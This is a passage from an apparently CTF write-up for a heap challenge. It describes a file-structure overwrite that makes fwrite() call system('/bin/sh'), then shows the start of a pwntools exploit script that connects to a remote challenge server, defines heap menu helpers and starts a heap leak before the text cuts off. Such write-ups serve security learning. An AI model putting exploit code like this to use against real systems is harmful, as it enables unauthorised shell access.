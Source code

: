And here we have the final steps of our exploits, replacing the old structure with our own and
triggering fwrite() which will end up calling system("/bin/sh") through our carefully crafted file struct.

### Final Exploit

```py
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL
from time import time

libc_imp = CDLL('./libc.so.6')
libc_imp.srand(int(time()))

context.log_level = 'error'
context.binary = elf = ELF('./chall')
context.terminal = ['alacritty', '-e']

gs = """
continue
"""
if args.REMOTE:
    io = remote("193.148.168.30", 7669)
else:
    io = process()
    if args.GDB:
        gdb.attach(io, gdbscript=gs)

libc = elf.libc
context.log_level = 'info'

# PWN HERE

def create_chonc(size: int):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b':\n', str(size).encode())

def view_chonc(number: int):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b':\n', str(number).encode())

def edit_chonc(number: int, content: bytes):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b':\n', str(number).encode())
    io.sendlineafter(b':\n', content)

def delete_chonc(number: int):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b':\n', str(number).encode())

def create_chonc_file():
    io.sendlineafter(b'> ', b'5')

def delete_chonc_file():
    io.sendlineafter(b'> ', b'6')

def write_chonc_file():
    io.sendlineafter(b'> ', b'7')
    io.sendlineafter(b']\n', b'y')

# Get heap leak
create_chonc(0x28)
```